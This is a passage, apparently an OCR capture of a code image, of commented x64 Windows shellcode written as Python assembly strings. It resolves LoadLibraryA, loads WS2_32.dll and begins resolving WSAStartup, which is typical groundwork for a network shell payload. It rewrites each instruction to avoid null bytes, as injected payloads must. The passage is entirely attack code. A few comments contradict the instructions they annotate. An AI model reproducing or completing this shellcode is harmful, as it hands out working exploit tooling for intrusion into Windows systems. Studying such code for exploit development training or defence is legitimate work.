 ```
        
        "  call r14; "                      # Call GetProcAddress, with R14 pointing to its address
        # "  add rsp, 0x30; "               # Clean up the stack after the call (Null Byte)
        # Null byte fix
        " xor r15, r15; "                   # Zero out r15 to start fresh
        " add r15, 0x30FFFFF; "             # Load r15 with a large number
        " shr r15, 0x14; "                  # Right-shift r15 by 20 bits to get 0x30
        " add rsp, r15; "                   # Add 0x30 to rsp

        # "  add rsp, 0x10; "               # Adjust stack pointer to clean up the 'LoadLibraryA' string (Null Byte)
        # Null byte fix
        " xor r15, r15; "                   # Zero out r15 to start fresh
        " add r15, 0x10FFFFF; "             # Load r15 with a large number
        " shr r15, 0x14; "                  # Right-shift r15 by 20 bits to get 0x10
        " add rsp, r15; "                   # Subtract 0x10 from rsp

        "  mov rsi, rax; "                  # Store the resolved address of LoadLibraryA into RSI

        # Call LoadLibraryA to load WS2_32.DLL 
        " xor rax, rax;"                    # Clear RAX register
        # " mov rax, 0x6C6C; "              # Load the last two characters "ll" into RAX (Null Bytes)
        # Null Byte Fix
        " mov al, 0x6C; "                   # Move 'l' into the lower byte of RAX
        " shl rax, 8; "                     # Shift RAX left by 8 bits
        " mov al, 0x6C; "                   # Move the second 'l' into the now empty lower byte of RAX

        " push rax;"                        # Push "ll" onto the stack
        " mov rax, 0x642E32335F325357;"     # Load "WS2_32.d" into RAX
        " push rax;"                        # Push "WS2_32.d" onto the stack forming "WS2_32.dll"
        " mov rcx, rsp;"                    # Set RCX to point to the string "WS2_32.dll" on the stack
        # " sub rsp, 0x30;"                 # Allocate 48 bytes on the stack to preserve context during the call (Null Byte)
        # Null byte fix
        " xor r15, r15; "                   # Zero out r15 to start fresh
        " add r15, 0x30FFFFF; "             # Load r15 with a large number
        " shr r15, 0x14; "                  # Right-shift r15 by 20 bits to get 0x30
        " sub rsp, r15; "                   # Subtract 0x30 from rsp

        " call rsi;"                        # RSI holds the address of LoadLibraryA, so we proceed to call it
        " mov r15, rax;"                    # Store the return value (module handle) in R15
        # " add rsp, 0x30;"                 # Restore the stack by removing the 48 bytes allocated (Null Byte)
        # Null byte fix
        " xor rbx, rbx; "                   # Zero out rbx to start fresh
        " add rbx, 0x30FFFFF; "             # Load rbx with a large number
        " shr rbx, 0x14; "                  # Right-shift rbx by 20 bits to get 0x30
        " add rsp, rbx; "                   # Add 0x30 to rsp

        # " add rsp, 0x10;"                 # Adjust stack to remove the space used by "WS2_32.dll" (Null Byte)
        # Null byte fix
        " xor rbx, rbx; "                   # Zero out r15 to start fresh
        " add rbx, 0x10FFFFF; "             # Load r15 with a large number
        " shr rbx, 0x14; "                  # Right-shift r15 by 20 bits to get 0x10
        " add rsp, rbx; "                   # Subtract 0x10 from rsp

        # Resolve WSAStartup Address
        # " mov rax, 0x7075;"               # Load "up" into RAX
```